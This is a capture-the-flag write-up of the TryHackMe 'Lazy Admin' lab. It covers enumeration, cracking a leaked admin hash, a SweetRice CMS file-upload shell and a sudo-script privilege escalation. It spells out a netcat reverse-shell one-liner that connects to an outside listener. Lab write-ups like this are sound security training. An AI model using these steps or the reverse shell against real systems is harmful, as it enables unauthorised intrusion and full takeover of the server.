 * * *
 ### LAB: LAZY ADMIN
 ### PLATFORM: TRYHACKME
* * *
![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/78cbe967-4e98-4444-81ab-fd4e7e862bc1)

### ENUMERATION

- Rustscan's result

  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/d472f88d-eda5-4353-b883-c0175b88dd32)

- Nmap's service identification
  
        ❯ nmap -sC -sV -p 22,80 10.10.55.39
      Starting Nmap 7.94 ( https://nmap.org ) at 2024-01-25 14:50 EST
      Nmap scan report for 10.10.55.39
      Host is up (0.15s latency).
      
      PORT   STATE SERVICE VERSION
      22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
      | ssh-hostkey: 
      |   2048 49:7c:f7:41:10:43:73:da:2c:e6:38:95:86:f8:e0:f0 (RSA)
      |   256 2f:d7:c4:4c:e8:1b:5a:90:44:df:c0:63:8c:72:ae:55 (ECDSA)
      |_  256 61:84:62:27:c6:c3:29:17:dd:27:45:9e:29:cb:90:5e (ED25519)
      80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
      |_http-server-header: Apache/2.4.18 (Ubuntu)
      |_http-title: Apache2 Ubuntu Default Page: It works
      Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
      
- I discovered a directory `content` with ffuf

  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/7b86d596-d097-4936-9aa4-bb5a67490891)

-  I fuzzed `/content/` with ffuf for more sub-directories

  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/0dec9cbc-11f5-469c-8bf2-1c78f97233e1)
 
- `/content`'s index page reveals the CMS of the site which is `sweetrice`
    
  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/4c9ce986-d48e-4e93-bb08-a71672630670)

- Sub directory `as` contains an admin panel

  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/4a973c83-99eb-4e6d-aeff-acc049e31c13)

- Another subdirectory `content/inc/mysql_backup/` contains an sql database which reveals a password hash and a username

  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/1c624102-95c0-4b83-8088-28e0b0c542f4)

- I cracked the hash `42f749ade7f9e195bf475f37a44cafcb` with `crackstation.net`

  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/d682ca26-5bd7-48fe-9bd0-a1b9a6e0e339)

- Admin panel accessed

  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/850fd2bd-6bf9-43e6-b48f-3e26518b31e9)

### SWEETRICE CMS EXPLOIT

- The Sweetrice cms has an arbitrary file upload vulnerability which allows authenticated admin to upload a file,if an attacker can
get the admin credentials,the attacker can upload arbitrary php code to gain access to the server.<a href="https://www.exploit-db.com/exploits/40716">Exploit</a>

  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/9cb1ec3e-cc0a-4f8c-9075-175acf49083e)

- To manually, use the exploit,navigate to `ads`, and copy this php system code and save

  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/0adb62f7-b07d-433b-b408-bab57269c1d8)

- To find the shell,navigate to `</host>/inc/ads/` to find your shell

  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/6fa78a0b-e4a1-46f2-9ac3-929886378182)

- Shell Access

  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/37bd12e1-41ac-4df6-afd7-0430a9d12360)

### PRIVILEGE ESCALATION

- After running `sudo -l`,I discovered that user `www-data` can run a script as root and also the script can run a script owned
by root user and we have write permissions for the same script `/etc/copy.sh`.

  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/703218ab-9d8d-4a4f-a17d-4e5bd79f438b)

- To escalate privileges,we can copy a rev shell code into copy.sh and set up a listener
  `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 10.8.158.229 1337 >/tmp/f`

  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/ce15b4a0-36ff-4feb-87a1-e855fc4657f0)

- We have a root shell after running `sudo /usr/bin/perl /home/itguy/backup.pl`

  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/f3484f59-c549-4546-8457-20fa1250ac90)
